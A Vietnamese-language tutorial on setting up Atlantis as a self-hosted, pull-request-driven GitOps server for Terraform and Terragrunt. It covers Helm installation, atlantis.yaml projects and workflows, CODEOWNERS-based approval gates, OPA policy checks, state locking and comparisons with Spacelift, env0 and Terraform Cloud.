


# 🎓 Atlantis — GitOps cho Terraform/Terragrunt

> **Tác giả:** Mr.Rom\
> **Phiên bản:** v2.0.1\
> **Tạo lúc:** 24/05/2026\
> **Cập nhật:** 11/06/2026\
> **Level:** Intermediate\
> **Tags:** [MUST-KNOW]\
> **Yêu cầu trước:** [Terragrunt — DRY Terraform cho multi-env multi-region](01_terragrunt-dry-multi-env.md), một GitHub repo chứa Terraform code.

> 🎯 *Chạy `terraform apply` ngay trên laptop nghe thì tiện, nhưng kéo theo ba vết thương: không có dấu vết kiểm toán (*audit trail* — lịch sử ai-làm-gì), credentials AWS nằm phơi trên máy cá nhân, và nhiều người apply cùng lúc gây xung đột state. **Atlantis** là một server tự host biến mọi thay đổi hạ tầng thành một workflow GitOps dựa trên Pull Request: mở PR → tự chạy plan → review → comment `atlantis apply` → mọi thứ in dấu vào Git. Bài này đi qua kiến trúc, cài đặt bằng Helm, viết `atlantis.yaml`, phân quyền (RBAC), khoá state và cách Atlantis ăn khớp với Terragrunt.*

## 🎯 Sau bài này bạn sẽ

- [ ] Hiểu **kiến trúc Atlantis** và workflow dựa trên Pull Request.
- [ ] Cài Atlantis trên K8s bằng Helm.
- [ ] Cấu hình project bằng **`atlantis.yaml`**.
- [ ] Nắm workflow: **plan tự động khi mở PR** + **apply qua comment**.
- [ ] Phân quyền (**RBAC**): ai được apply cái gì.
- [ ] Hiểu **khoá state** (*state locking*) và cách Atlantis xếp hàng (*queue*).
- [ ] Tích hợp **Terragrunt** với `terragrunt-atlantis-config`.
- [ ] So sánh Atlantis với **Spacelift / env0 / Terraform Cloud**.

---

## Tình huống — 3 dev apply cùng lúc, state lock vỡ trận

Hãy bắt đầu bằng một buổi sáng hỗn loạn rất hay gặp ở team nào còn để mỗi người tự chạy Terraform trên máy mình. Ba dev cùng team, đều apply Terraform local trên cùng một thư mục hạ tầng dùng chung:

- Nguyen Van A: `cd dev/us-east-1/vpc && terraform apply` lúc 10:00.
- Le Van B: `cd dev/us-east-1/vpc && terraform apply` lúc 10:01 — nhưng state đang bị lock bởi Nguyen Van A trong DynamoDB, nên Le Van B phải ngồi chờ.
- Tran Van C: đang có việc gấp, gõ `terraform force-unlock <id>` để phá lock của Nguyen Van A. Hậu quả: apply của Nguyen Van A đang chạy dở dang bị cắt ngang → state hỏng một phần (*partial corruption*).

Buổi post-mortem sau đó, sếp tóm gọn ba vấn đề:

- Ba người cùng động vào một thứ mà chẳng ai phối hợp với ai.
- Tran Van C `force-unlock` sai chỗ, kéo theo hai tiếng vật lộn khôi phục state.
- Credentials AWS của Nguyen Van A nằm thẳng trên laptop — IT audit trượt ngay.

Các hướng được mang ra cân nhắc:

- Đặt một luật trên Slack kiểu "hỏi trước khi apply" — nghe thì dễ nhưng không scale, người quên là chuyện thường.
- Tập trung hoá qua Atlantis: mọi PR được xếp hàng, không còn apply song song, và mọi thay đổi đều có dấu vết kiểm toán.

Kết luận của sếp gọn lỏn: tuần này dựng Atlantis, chấm dứt apply local trên hạ tầng dùng chung. Phần còn lại của bài chính là cách làm việc đó.

---

## 1️⃣ Kiến trúc Atlantis

Trước khi cài, cần hình dung Atlantis là cái gì và nó ngồi ở đâu trong dòng chảy công việc. Atlantis là một server tự host (một Go binary, thường deploy thành pod trên K8s) đứng giữa GitHub và cloud của bạn. Khi có PR, GitHub bắn *webhook* (lời gọi HTTP báo sự kiện) tới Atlantis; Atlantis tự chạy `terraform plan` rồi comment kết quả ngược lại vào PR. Reviewer xem plan, approve, rồi comment `atlantis apply` để Atlantis thực thi. Sơ đồ dưới đây dựng lại trọn vòng đời đó:



Bóc tách sơ đồ ra, hệ thống gồm năm mảnh ghép. Mỗi mảnh đảm một vai, và điểm đáng chú ý nhất là credentials không còn nằm trên máy ai cả:

- **Atlantis Server**: Go binary chạy trong một pod K8s.
- **Webhook**: GitHub/GitLab/Bitbucket gửi các sự kiện PR sang.
- **Terraform/Terragrunt**: cài sẵn trong container Atlantis.
- **Cloud credentials**: một IAM role gắn vào pod Atlantis (qua IRSA), không phải key trên laptop.
- **State backend**: S3 + DynamoDB (y như khi dùng Terraform thuần).

Vậy tại sao lại bê GitOps vào hạ tầng thay vì cứ apply như cũ? Bốn lợi ích dưới đây chính là lời giải cho ba vết thương ở phần mở đầu:

- **Một nguồn sự thật duy nhất** (*single source of truth*): chính là Git. Trạng thái hạ tầng phản chiếu đúng trạng thái trong Git.
- **Dấu vết kiểm toán**: mỗi thay đổi là một PR, có người review và approve hẳn hoi.
- **Không còn credentials cục bộ**: pod Atlantis giữ IAM role; dev chỉ commit code, không bao giờ chạm vào AWS key.
- **Có phối hợp**: Atlantis xếp hàng các lượt apply, triệt tiêu xung đột state do chạy song song.

🪞 **Ẩn dụ**: *Atlantis giống một **bouncer đứng cửa câu lạc bộ**. Đám khách (dev) muốn vào (apply hạ tầng) đều phải qua tay bouncer (Atlantis) — kiểm tra giấy tờ (xác thực), xem còn chỗ không (state lock), và cho vào từng người một (xếp hàng).*

---

## 2️⃣ Cài Atlantis trên K8s

### Yêu cầu trước

Có bốn thứ cần chuẩn bị trước khi cài Atlantis — đây là baseline tối thiểu, và thực tế đa số shop đã chạy K8s sẵn có 3/4:

- Một K8s cluster.
- Một GitHub repo chứa Terraform code.
- Credentials AWS (một IAM role cho IRSA, hoặc static key đặt trong Secret).
- Một S3 bucket để lưu state.

### Cài bằng Helm

Cách gọn nhất là dùng Helm chart chính thức — bạn chỉ cần tinh chỉnh `values.yaml` cho GitHub token, danh sách repo được phép (*allowlist*) và IAM role. Đầu tiên là thêm repo Helm và cập nhật:

```bash
helm repo add runatlantis https://runatlantis.github.io/helm-charts
helm repo update
```

Tiếp theo là phần cốt lõi: file `values.yaml` ở mức tối thiểu nhưng đủ dùng cho production — đã bật ingress có TLS, gắn IRSA và xin sẵn PVC để giữ trạng thái lock:

```yaml
# Image
image:
  tag: v0.27.0

# Replica
replicaCount: 1   # Atlantis single-replica (state lock prevents concurrency anyway)

# GitHub config
github:
  user: atlantis-bot
  token: "${GITHUB_TOKEN}"
  secret: "${WEBHOOK_SECRET}"

# Repos allowed
orgAllowlist: "github.com/acme/*"

# Storage
persistentVolumeClaim:
  enabled: true
  storage: 10Gi

# AWS IRSA
serviceAccount:
  create: true
  annotations:
    eks.amazonaws.com/role-arn: arn:aws:iam::123456789012:role/AtlantisRole

# Ingress
ingress:
  enabled: true
  ingressClassName: nginx
  host: atlantis.acmeshop.vn
  annotations:
    cert-manager.io/cluster-issuer: letsencrypt-prod
  tls:
    - secretName: atlantis-tls
      hosts: [atlantis.acmeshop.vn]

# Resources
resources:
  requests: { cpu: 200m, memory: 512Mi }
  limits: { cpu: 1, memory: 2Gi }

# Atlantis config
atlantisUrl: https://atlantis.acmeshop.vn
defaultTFVersion: 1.7.0
defaultTGVersion: 0.55.0    # Terragrunt
```

Có values rồi thì tạo Secret chứa token + webhook secret, rồi cài chart vào namespace riêng:

```bash
kubectl create secret generic atlantis-secrets \
  --from-literal=github-token=$GH_TOKEN \
  --from-literal=webhook-secret=$WEBHOOK_SECRET \
  -n atlantis

helm install atlantis runatlantis/atlantis \
  -f values.yaml \
  --namespace atlantis --create-namespace
```

### Thiết lập phía GitHub

Server đã chạy, giờ phải nối GitHub vào để nó biết đường bắn sự kiện sang. Bốn bước, làm tuần tự:

1. Tạo một tài khoản bot `atlantis-bot@acme.com`.
2. Thêm bot làm collaborator của repo hạ tầng.
3. Tạo Personal Access Token (PAT) với scope `repo`.
4. Thêm webhook trong repo:
   - URL: `https://atlantis.acmeshop.vn/events`
   - Content type: `application/json`
   - Secret: `$WEBHOOK_SECRET` (phải khớp với config của Atlantis).
   - Events: `Pull request`, `Pull request review`, `Issue comment`, `Push`.

### Kiểm tra

Cách xác nhận nhanh nhất là mở thử một PR có sửa Terraform: nếu Atlantis comment plan trở lại PR, nghĩa là đường dây webhook đã thông và pipeline đã sống.

---

## 3️⃣ Workflow của Atlantis

### Workflow mặc định

Đây là dòng chảy chuẩn từ lúc dev mở PR tới lúc thay đổi đáp xuống hạ tầng. Cả vòng gói gọn trong chín bước, và điểm hay là apply chỉ xảy ra khi có người chủ động comment, không tự động tràn ra:

1. **Dev mở PR** kèm thay đổi Terraform.
2. **GitHub webhook** bắn sang, Atlantis nhận.
3. **Atlantis chạy `terraform plan`** trên branch của PR.
4. **Plan được post lên PR** dưới dạng comment.
5. **Reviewer approve PR** (approve kiểu GitHub).
6. **Reviewer (hoặc người có quyền) comment `atlantis apply`**.
7. **Atlantis chạy `terraform apply`**.
8. **Kết quả post lại lên PR** (thành công/lỗi).
9. **Tuỳ chọn**: tự merge PR sau khi apply (bật/tắt được).

### Ví dụ comment plan

Cái khiến reviewer dễ thở là Atlantis trình plan ngay trong comment dưới **định dạng diff kiểu Git** — `+` là thêm, `~` là thay đổi, `-` là xoá. Reviewer nhìn phát thấy ngay tác động, lại có sẵn nút bấm (CTA) là câu lệnh cụ thể để apply ngay tại chỗ:

````text
ran `plan` for project `dev-us-east-1-vpc`:

```diff
Plan: 3 to add, 1 to change, 0 to destroy.

Changes:
  + aws_subnet.public[0]
  + aws_subnet.public[1]
  ~ aws_vpc.main
      tags: + Environment = "dev"
```

* :arrow_forward: To apply this plan, comment:
    * `atlantis apply -p dev-us-east-1-vpc`
* :put_litter_in_its_place: To delete this plan click [here](...)
* :repeat: To plan this project again, comment:
    * `atlantis plan -p dev-us-east-1-vpc`
````

Cái lợi nằm ở chỗ plan giờ hiển hiện ngay trong PR, có cấu trúc, ai cũng review được — thay vì nằm trong terminal của một người.

### Comment apply

Khi đã yên tâm, reviewer gõ một dòng:

```
atlantis apply -p dev-us-east-1-vpc
```

Atlantis chạy apply rồi comment lại kết quả, vẫn ngay trong PR:

````text
ran `apply` for project `dev-us-east-1-vpc`:

```
Apply complete! Resources: 3 added, 1 changed, 0 destroyed.
```
````

### Các lệnh hay dùng

Atlantis hiểu một bộ lệnh gọn. Phổ biến nhất là `plan` (tự chạy khi mở PR) và `apply` (gõ tay sau khi approve); riêng `unlock` là phao cứu sinh khi state lock bị kẹt. Bảng dưới liệt kê đầy đủ:

| Command | Description |
|---|---|
| `atlantis plan` | Re-plan all projects in PR |
| `atlantis plan -p <project>` | Plan specific project |
| `atlantis apply` | Apply all planned projects |
| `atlantis apply -p <project>` | Apply specific |
| `atlantis approve_policies` | Approve OPA policy check (advanced) |
| `atlantis unlock` | Release state lock if stuck |
| `atlantis help` | Show commands |

---

## 4️⃣ Cấu hình bằng `atlantis.yaml`

### Khái niệm

File `atlantis.yaml` đặt ở gốc repo chính là tờ chỉ dẫn để Atlantis biết phải làm gì với repo của bạn. Nó trả lời ba câu hỏi: thư mục nào chứa Terraform, mỗi thư mục chạy theo workflow nào (phiên bản TF, các lệnh ra sao), và khi nào thì tự động plan.

### Cấu hình cơ bản

Dưới đây là một ví dụ thực tế cho repo Terragrunt nhiều môi trường: ba project (dev VPC, dev EKS, prod VPC), trong đó riêng prod được siết thêm `apply_requirements` để bắt buộc có approval và không xung đột mới cho apply:

```yaml
version: 3
automerge: false
delete_source_branch_on_merge: true

projects:
  - name: dev-us-east-1-vpc
    dir: live/dev/us-east-1/vpc
    workflow: terragrunt
    autoplan:
      when_modified: ["**/*.hcl", "../../../../modules/vpc/**"]
      enabled: true
  
  - name: dev-us-east-1-eks
    dir: live/dev/us-east-1/eks
    workflow: terragrunt
    autoplan:
      when_modified: ["**/*.hcl", "../../../../modules/eks/**"]
      enabled: true
  
  - name: prod-us-east-1-vpc
    dir: live/prod/us-east-1/vpc
    workflow: terragrunt-prod
    autoplan:
      when_modified: ["**/*.hcl", "../../../../modules/vpc/**"]
      enabled: true
    apply_requirements: [approved, mergeable]   # require approval + no conflict

workflows:
  terragrunt:
    plan:
      steps:
        - run: terragrunt init -no-color
        - run: terragrunt plan -no-color -out=$PLANFILE
    apply:
      steps:
        - run: terragrunt apply -no-color $PLANFILE
  
  terragrunt-prod:
    plan:
      steps:
        - run: terragrunt init -no-color
        - run: tfsec --no-color   # security scan first
        - run: terragrunt plan -no-color -out=$PLANFILE
    apply:
      steps:
        - run: terragrunt apply -no-color $PLANFILE
```

### Mẫu `when_modified`

Trường `autoplan.when_modified` quyết định: khi những file nào thay đổi thì project này mới được plan lại. Nhờ nó, Atlantis chỉ plan đúng project liên quan tới PR thay vì plan toàn bộ:

```yaml
when_modified:
  - "**/*.tf"
  - "**/*.hcl"
  - "../../../../modules/vpc/**"   # cross-folder dependency
```

Kết quả là Atlantis chỉ chạy plan cho những project thật sự bị ảnh hưởng — plan từng phần một cách thông minh, không phí công với các thư mục không đổi.

### Điều kiện trước khi apply

Để chặn việc apply ẩu, bạn khai báo `apply_requirements` — những điều kiện bắt buộc phải thoả trước khi Atlantis cho phép apply:

```yaml
apply_requirements:
  - approved          # GitHub PR approved
  - mergeable         # no conflicts
  - undiverged        # PR up to date with base branch
```

Khi chưa đủ điều kiện, lệnh apply sẽ bị chặn — đây là chốt chặn rất hữu dụng cho môi trường prod.

### Sinh `atlantis.yaml` cho Terragrunt

Với repo Terragrunt đồ sộ (75+ thư mục), bảo trì `atlantis.yaml` bằng tay là cực hình. Lúc này hãy để **`terragrunt-atlantis-config`** làm hộ — nó quét toàn bộ thư mục Terragrunt rồi tự sinh các entry project:

```bash
# Generate atlantis.yaml from Terragrunt repo
terragrunt-atlantis-config generate \
  --output atlantis.yaml \
  --workflow terragrunt \
  --autoplan
```

Tốt nhất là cho lệnh này chạy trong CI để file luôn được tái sinh mỗi khi cấu trúc thư mục thay đổi:

```yaml
# .github/workflows/atlantis-config.yml
- name: Generate atlantis.yaml
  run: terragrunt-atlantis-config generate
- name: Commit
  if: changed
  run: git commit + push
```

---

## 5️⃣ RBAC — Ai được apply cái gì

### Các tầng kiểm soát có sẵn của Atlantis

Atlantis không tự phát minh ra một hệ phân quyền riêng — nó dựa lưng vào GitHub. Có ba lớp kiểm soát chồng lên nhau:

1. **GitHub OAuth token**: bot Atlantis chỉ truy cập được các repo nằm trong allowlist (`orgAllowlist: "github.com/acme/*"`).
2. **`apply_requirements`**: PR phải được approve bởi collaborator có quyền write.
3. **Lock cấp project**: chỉ PR đang giữ lock mới được apply.

### Giới hạn apply cho đúng người

Muốn chỉ đội SRE được động vào prod, bạn kết hợp `atlantis.yaml` với branch protection và CODEOWNERS của GitHub. Trước hết, trong `atlantis.yaml` siết các project prod:

```yaml
projects:
  - name: prod-*
    apply_requirements: [approved]
    allowed_overrides: []
```

Tiếp đến, bật branch protection cho nhánh `main` để bắt buộc review từ CODEOWNERS:

```
main branch protection:
  - Require 2 reviews
  - Require review from CODEOWNERS
```

Và cuối cùng, file `.github/CODEOWNERS` chỉ định ai sở hữu thư mục nào:

```
# Only @sre-team can approve prod infra
/live/prod/  @acme/sre-team
/modules/    @acme/platform-team
```

Ráp lại: một PR đụng vào `live/prod/` bắt buộc phải có approval của `@sre-team`, và Atlantis tôn trọng approval đó qua `apply_requirements: [approved]`. Phân quyền nằm trọn trong cơ chế của GitHub, không cần hệ riêng.

### Kiểm tra policy bằng Conftest / OPA

Đôi khi "được approve" vẫn chưa đủ — bạn muốn chặn cứng những thao tác nguy hiểm bất kể ai duyệt. Đó là lúc gắn một bước policy check vào workflow:

```yaml
workflows:
  terragrunt:
    plan:
      steps:
        - run: terragrunt init
        - run: terragrunt plan -out=$PLANFILE
        - run: terragrunt show -json $PLANFILE > plan.json
        - run: conftest test plan.json --policy policies/
```

Policy được viết bằng Rego. Ví dụ một luật cấm tạo S3 bucket public:

```rego
package main

deny[msg] {
  input.resource_changes[_].type == "aws_s3_bucket"
  input.resource_changes[_].change.after.acl == "public-read"
  msg := "S3 bucket cannot be public-read"
}
```

Khi policy bị vi phạm, Atlantis cho plan thất bại — nghĩa là dù PR đã được approve, vẫn không thể apply. Đây là lớp chặn cuối cùng nằm ngoài tầm với của con người duyệt ẩu.

---

## 6️⃣ Khoá state + Xếp hàng

### Lock của Atlantis

Atlantis tự giữ một **lock cấp project** trong BoltDB (mặc định) hoặc Redis. Cơ chế rất đơn giản: khi PR A bắt đầu apply lên `dev-us-east-1-vpc`, mọi PR khác đụng vào cùng project sẽ phải chờ.

Cụ thể, khi PR A apply `dev-us-east-1-vpc`:

- Atlantis khoá `dev-us-east-1-vpc`.
- PR B mở ra cùng project → comment hiện "🔒 locked by PR A".
- Plan của PR B nằm chờ tới khi lock được nhả.

Sơ đồ dưới minh hoạ vòng khoá–nhả này:



### Nhả lock thủ công

Nếu apply lăn đù ra giữa chừng, lock có thể kẹt lại. Lúc đó nhả tay bằng cách comment ngay trong PR:

```
# In PR comment
atlantis unlock
```

Hoặc vào trang UI để xem và xoá lock: `https://atlantis.acmeshop.vn/locks`.

### So với lock gốc của Terraform (DynamoDB)

Nhiều người thắc mắc Atlantis lock với DynamoDB lock có đá nhau không — câu trả lời là chúng ở hai tầng khác nhau và bổ trợ cho nhau:

- **Atlantis lock** (BoltDB): tầng cao — theo project, ngăn nhiều PR cùng chạm một project.
- **DynamoDB lock**: tầng thấp — theo từng file state, ngăn nhiều tiến trình Terraform cùng ghi một state.

Hai lớp này làm việc cùng nhau: lock của Atlantis chặn phần lớn xung đột ngay từ đầu, còn DynamoDB là lưới an toàn cuối cùng.

---

## 7️⃣ Tích hợp Terragrunt + Atlantis

### Thử thách

Terragrunt có các phụ thuộc chéo giữa module (qua khối `dependency`). Một PR sửa module dùng chung có thể ảnh hưởng tới N project cùng lúc — và đây mới là chỗ khó.

Để xử lý cho đúng, Atlantis cần:

- Phát hiện hết các project bị ảnh hưởng.
- Plan theo đúng thứ tự phụ thuộc.
- Khoá tất cả project liên quan.

### Workflow với `terragrunt-atlantis-config`

May là `terragrunt-atlantis-config` lo giúp phần phát hiện phụ thuộc. File `atlantis.yaml` nó sinh ra sẽ tự nhét các đường dẫn upstream vào `when_modified`, để khi một module bị đụng thì mọi project phụ thuộc đều được plan lại:

```yaml
projects:
  - name: dev-us-east-1-vpc
    dir: live/dev/us-east-1/vpc
    workflow: terragrunt
    autoplan:
      when_modified:
        - "*.hcl"
        - "../**/*.hcl"
        - "../../../../modules/vpc/**"
        - "../../../../terragrunt.hcl"   # root config change
  
  - name: dev-us-east-1-eks
    dir: live/dev/us-east-1/eks
    workflow: terragrunt
    autoplan:
      when_modified:
        - "*.hcl"
        - "../../../../modules/eks/**"
        - "../vpc/*.hcl"               # depends on VPC config
        - "../../../../modules/vpc/**"  # depends on VPC module
```

Nhìn vào EKS là thấy rõ: vì nó phụ thuộc VPC, tool đã chủ động thêm cả đường dẫn config lẫn module của VPC vào danh sách kích hoạt.

### Để Atlantis chạy Terragrunt

Phần còn lại chỉ là dạy workflow gọi `terragrunt` thay cho `terraform`. Đây cũng là chỗ tốt để bật cache plugin nhằm tránh tải lại provider mỗi lần init:

```yaml
plan:
  steps:
    - env:
        name: TF_PLUGIN_CACHE_DIR
        value: $HOME/.terraform.d/plugin-cache
    - run: |
        mkdir -p $TF_PLUGIN_CACHE_DIR
        terragrunt init -no-color -reconfigure
    - run: terragrunt plan -no-color -out=$PLANFILE
apply:
  steps:
    - run: terragrunt apply -no-color $PLANFILE
```

Điều kiện để chạy được là binary `terragrunt` phải có sẵn trong image của Atlantis.

### Image tuỳ biến chứa cả hai

Nếu image Atlantis bạn dùng chưa kèm Terragrunt, hãy bồi thêm vào bằng một Dockerfile nhỏ:

```dockerfile
FROM runatlantis/atlantis:v0.27.0

RUN apk add --no-cache wget \
    && wget -O /usr/local/bin/terragrunt \
       https://github.com/gruntwork-io/terragrunt/releases/download/v0.55.0/terragrunt_linux_amd64 \
    && chmod +x /usr/local/bin/terragrunt
```

Build, push image này lên registry rồi trỏ tới nó trong Helm values là xong.

---

## 8️⃣ Atlantis so với các lựa chọn khác

Atlantis không phải lựa chọn duy nhất cho GitOps hạ tầng — nó là phương án OSS tự host, đổi công sức vận hành lấy quyền kiểm soát và chi phí bằng không. Bảng dưới đặt nó cạnh các đối thủ SaaS để bạn thấy mình đánh đổi gì lấy gì:

| Tool | Type | Ưu điểm | Nhược điểm | $$$ |
|---|---|---|---|---|
| **Atlantis** | OSS self-host | Free, full control, customizable workflows | Self-host ops | $0 |
| **Spacelift** | SaaS | Beautiful UI, drift detection, policy as code, multi-VCS | Paid | Free tier; $0.05/runner-min |
| **env0** | SaaS | UI focus, custom flows, multi-cloud, RBAC | Paid | Free tier; $X/month |
| **Terraform Cloud / Enterprise** | HashiCorp SaaS / self-host | Native Terraform, mature, Sentinel policy | $$$, vendor-specific | $20/user/month + |
| **Scalr** | SaaS | OpenTofu compatible, audit, modules | Paid | $$ |
| **DIY GitHub Actions** | OSS DIY | No infra to maintain | Less PR-native | $0 |

Bảng cho cái nhìn tổng thể, nhưng chọn đúng thì phải soi theo hoàn cảnh. Bốn nhóm dưới đây gom các tình huống điển hình.

### Khi Atlantis thắng

- Muốn tự host, né lệ thuộc nhà cung cấp SaaS.
- Cần tuỳ biến sâu (workflow riêng, plugin).
- Không cần hỗ trợ nhiều hệ VCS.
- Team thoải mái vận hành Kubernetes.

### Khi Spacelift / env0 thắng

- Không có hứng thú vận hành K8s.
- Muốn một UI bóng bẩy.
- Cần sẵn drift detection và policy.
- Sẵn sàng trả tiền để đổi lấy năng suất.

### Khi Terraform Cloud thắng

- Đã đặt cược vào hệ sinh thái HashiCorp.
- Cần độ chín và hỗ trợ chính hãng.
- Cần policy bằng Sentinel (chỉ Terraform mới có).

### Khi GitHub Actions là đủ

- Team nhỏ, dưới 10 module.
- Workflow đơn giản.
- Vốn đã xài nặng hệ sinh thái GitHub Actions.

Gộp lại, khuyến nghị cho năm 2026 tuỳ quy mô như sau:

- Startup: GitHub Actions hoặc Atlantis.
- Quy mô vừa: Atlantis.
- Doanh nghiệp lớn: Spacelift / env0 / Terraform Cloud.

---

## 9️⃣ Hands-on: Dựng Atlantis từ đầu đến cuối

Giờ ráp mọi mảnh ở trên thành một quy trình chạy thật, theo sáu bước từ IAM tới một PR mẫu chạy trọn vòng plan–apply.

### Bước 1: IAM role cho Atlantis (IRSA)

Trước hết, Atlantis cần một danh tính trên AWS để gọi API thay cho dev. Cách sạch sẽ là IRSA — gắn IAM role vào service account của pod:

```bash
# Create OIDC provider for EKS (if not already)
eksctl utils associate-iam-oidc-provider --cluster=my-cluster --approve

# Create IAM role
cat > atlantis-trust.json <<EOF
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Principal": {
      "Federated": "arn:aws:iam::123456789012:oidc-provider/oidc.eks.us-east-1.amazonaws.com/id/XXXX"
    },
    "Action": "sts:AssumeRoleWithWebIdentity",
    "Condition": {
      "StringEquals": {
        "oidc.eks.us-east-1.amazonaws.com/id/XXXX:sub": "system:serviceaccount:atlantis:atlantis"
      }
    }
  }]
}
EOF

aws iam create-role --role-name AtlantisRole --assume-role-policy-document file://atlantis-trust.json
aws iam attach-role-policy --role-name AtlantisRole --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
# (Use narrower policy in production!)
```

Lưu ý dòng cuối: `AdministratorAccess` chỉ để demo cho nhanh — production phải thay bằng policy hẹp đúng nhu cầu (xem lại phần Cạm bẫy).

### Bước 2: Cài Atlantis bằng Helm

(Xem §2 phía trên — tạo Secret rồi `helm install`.)

### Bước 3: Webhook GitHub

(Xem §2 phía trên — bot account, PAT, và webhook trỏ tới `/events`.)

### Bước 4: Thêm `atlantis.yaml` vào repo

Sinh file config từ chính repo Terragrunt rồi commit lên:

```bash
cd infrastructure
terragrunt-atlantis-config generate --output atlantis.yaml --workflow terragrunt --autoplan
git add atlantis.yaml
git commit -m "Add Atlantis config"
git push
```

### Bước 5: Thêm workflow `.atlantis/`

Định nghĩa workflow ở cấp repo — bản này chèn thêm bước `tfsec` để quét bảo mật trước khi plan:

```yaml
workflows:
  terragrunt:
    plan:
      steps:
        - run: terragrunt init -no-color
        - run: tfsec --no-color
        - run: terragrunt plan -no-color -out=$PLANFILE
    apply:
      steps:
        - run: terragrunt apply -no-color $PLANFILE
```

### Bước 6: Thử với một PR

Cuối cùng là màn nghiệm thu: mở một PR sửa CIDR của VPC dev rồi quan sát Atlantis tự nhảy vào:

```bash
git checkout -b test-vpc-update
# Edit live/dev/us-east-1/vpc/terragrunt.hcl
# Change cidr_block
git add . && git commit -m "Update dev VPC CIDR"
git push origin test-vpc-update
gh pr create --title "Update dev VPC CIDR"
```

Ít phút sau, Atlantis comment plan ngay trong PR:

```
ran `plan` for project `dev-us-east-1-vpc`:

Plan: 1 to add, 0 to change, 0 to destroy.
...
```

Review, approve PR, rồi comment `atlantis apply` để Atlantis thực thi:

```
ran `apply` for project `dev-us-east-1-vpc`:

Apply complete! Resources: 1 added, 0 changed, 0 destroyed.
```

Nếu đặt `automerge: true` trong `atlantis.yaml`, PR sẽ tự merge sau apply. Tới đây bạn đã có một vòng GitOps hoàn chỉnh cho hạ tầng — mọi thay đổi đi qua PR, có review, có dấu vết.

---

## 💡 Cạm bẫy thường gặp & Best practice

### ❌ Cạm bẫy: Pod Atlantis mang AdministratorAccess

Khi pod Atlantis cầm `AdministratorAccess`, nó sở hữu toàn bộ tài khoản AWS. Một khi pod bị chiếm, cả tài khoản coi như thất thủ.

→ **Fix**:
- Least privilege: IAM role chỉ cấp đúng quyền cần thiết cho từng project.
- Multi-account: tách một instance Atlantis riêng cho mỗi tài khoản môi trường.
- Audit IAM định kỳ.

### ❌ Cạm bẫy: Không có cổng approval cho prod

```yaml
projects:
  - name: prod-*
    apply_requirements: []   # ← no requirement!
```

Để `apply_requirements` rỗng nghĩa là ai cũng apply được prod — đúng cái mà GitOps sinh ra để ngăn.

→ **Fix**: `apply_requirements: [approved]` kết hợp cổng CODEOWNERS.

### ❌ Cạm bẫy: Tài khoản bot Atlantis quá nhiều quyền

Nếu bot vừa commit vừa được tự approve PR của chính nó, vòng review coi như bị vô hiệu.

→ **Fix**:
- Bot chỉ **comment và apply**, không được approve.
- Branch protection: bắt buộc review bởi người không phải bot.

### ❌ Cạm bẫy: Webhook secret bị lộ

Một khi webhook secret rò rỉ, kẻ xấu có thể giả mạo sự kiện GitHub bắn vào Atlantis.

→ **Fix**:
- Xoay (rotate) webhook secret định kỳ.
- Bật xác thực chữ ký trong Atlantis (mặc định đã bật).
- Đừng commit `.env` chứa secret.

### ❌ Cạm bẫy: Lock kẹt sau khi crash

Atlantis chết ngang lúc apply, lock không được nhả → mọi PR sau bị chặn.

→ **Fix**:
- `atlantis unlock` từ comment trong PR.
- Hoặc vào web UI `/locks`.
- Cấu hình health check + tự khởi động lại cho pod Atlantis.

### ❌ Cạm bẫy: Single replica = điểm chết duy nhất (SPOF)

```yaml
replicaCount: 1
```

Chỉ một replica nghĩa là pod restart sẽ cắt ngang các lượt apply đang chạy.

→ **Fix**:
- Lưu BoltDB trên PVC (giữ trạng thái Atlantis).
- Restart xong nên tự nối lại được.
- Từ 2024, Atlantis hỗ trợ HA (nhiều replica chia sẻ state qua Redis).

### ❌ Cạm bẫy: Plan quá dài, vượt giới hạn comment GitHub

Một plan có 500 thay đổi resource sẽ bị GitHub cắt cụt comment, reviewer đọc thiếu.

→ **Fix**:
- Dùng `atlantis plan -p <project>` để plan riêng từng cái.
- Chẻ thay đổi lớn thành nhiều PR nhỏ.
- Cho Atlantis xuất link S3 cho các plan khổng lồ.

### ✅ Best practice: Kiểm tra trước merge (CI)

Hãy để GitHub Actions chạy các bước kiểm tra ngay trong cùng PR, trước khi tới Atlantis:

- `terraform validate`
- `tflint`
- `tfsec` (quét bảo mật)
- `checkov` (quét policy)
- `infracost` (ước tính chi phí)

Như vậy plan/apply được gác bởi nhiều lớp kiểm tra, còn Atlantis chỉ là bước apply cuối cùng.

### ✅ Best practice: Siết quyền truy cập web UI Atlantis

```yaml
ingress:
  annotations:
    nginx.ingress.kubernetes.io/auth-url: "https://oauth2-proxy.acmeshop.vn/oauth2/auth"
```

